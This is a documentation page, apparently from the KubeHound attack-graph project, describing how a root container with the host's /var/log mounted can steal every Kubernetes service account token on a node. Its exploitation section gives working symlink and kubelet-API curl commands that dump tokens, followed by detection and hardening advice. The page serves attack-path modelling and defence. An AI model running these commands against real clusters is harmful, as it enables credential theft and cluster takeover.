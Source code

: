 ```yaml
---
title: TOKEN_VAR_LOG_SYMLINK
---
```


<!--
id: TOKEN_VAR_LOG_SYMLINK
name: "Steal service account token from volume"
mitreAttackTechnique: T1552 - Unsecured Credentials
mitreAttackTactic: TA0006 - Credential Access
-->

# TOKEN_VAR_LOG_SYMLINK

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Steal all K8s API tokens from a node via an exposed `/var/log` mount.

## Details

A pod running as root and with a mount point to the node’s `/var/log` directory can expose the entire contents of its host filesystem to any user who has access to its logs, enabling an attacker to steal all K8s API tokens present on the K8s node. See [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) for a more detailed explanation of the technique.

## Prerequisites

Execution as root within a container process with the host `/var/log/` (or any parent directory) mounted inside the container.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/TOKEN_VAR_LOG_SYMLINK.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks) If the host `/var/log` (or any parent directory) is mounted, this attack will be possible. Example output below:

```bash
cat /proc/self/mounts

...
/dev/vda1 on /host/var/log type ext4 (rw,relatime)
...
```

```bash
# Examine the directory structure of any hostPath mounts to verify it is the log directory
ls -la /host/var/log
total 24
drwxr-xr-x 5 root root 4096 Mar  2 09:49 .
drwxr-xr-x 3 root root 4096 Mar  8 10:31 ..
-rw-r--r-- 1 root root  775 Mar  4 18:13 alternatives.log
drwxr-xr-x 2 root root 4096 Mar  8 10:46 containers
drwxr-xr-x 3 root root 4096 Mar  2 09:49 kubernetes
drwxr-xr-x 8 root root 4096 Mar  8 10:31 pods

ls -la /host/var/log/pods
total 32
drwxr-xr-x  8 root root 4096 Mar  8 10:31 .
drwxr-xr-x  5 root root 4096 Mar  2 09:49 ..
drwxr-xr-x  3 root root 4096 Mar  8 10:31 default_log-escape-pod_f262a349-c3bb-4561-9496-c3182f8d1256
```

## Exploitation

Setup the symlink:

```bash
ln -s / /host/var/log/root_link
```

Call the kubelet API to read the “logs” and extract pod service account tokens:

TODO Christophe: I was unable to call the kubelet on EKS

```bash
$ KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NODEIP=$(ip route | awk '/^default/{print $3}')
# On Amazon EKS, if you have access to the IMDS: NODEIP=$(curl http://169.254.169.254/latest/meta-data/local-ipv4)

# Find all the pods
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/

# <pre>
# <a href="10b90d62-6b16-4aa7-9e72-75f18dcca5a8/">10b90d62-6b16-4aa7-9e72-75f18dcca5a8/</a>
# <a href="2254e754-fbe0-48c4-b0c8-236a232fa510/">2254e754-fbe0-48c4-b0c8-236a232fa510/</a>
# <a href="324fe80e-e10e-462b-b046-be4c15e91b4e/">324fe80e-e10e-462b-b046-be4c15e91b4e/</a>
# <a href="5a9fc508-8410-444a-bf63-9f11e5979bee/">5a9fc508-8410-444a-bf63-9f11e5979bee/</a>
# <a href="a1176593-34a2-43e6-8bdd-ed10fa148fe7/">a1176593-34a2-43e6-8bdd-ed10fa148fe7/</a>
# <a href="a83a37cf-01ea-4b4c-ad19-f67e374cf255/">a83a37cf-01ea-4b4c-ad19-f67e374cf255/</a>
# <a href="dfbf38ad-2e92-44e0-b05b-8859350b6ea5/">dfbf38ad-2e92-44e0-b05b-8859350b6ea5/</a>
# </pre>

# Dump the token
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token

# eyJhbGciOiJSUzI1NiIsImtpZCI6I****REDACTED****
```

Cleanup the symlink when exploitation is complete:

```bash
rm /host/var/log/root_link
```

NOTE: the above assumes the serviceaccount has access to read logs. If *not* replace the token for any user token which should normally have logs access.

## Defences

### Monitoring

+ Monitor for suspicious symlink creation in the `/var/log` directory.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/var/log` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [TokenVarLogSymlink](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/token_var_log_symlink.go)

## References:

+ [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) 
+ [Kubelet API · Deep Network](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)
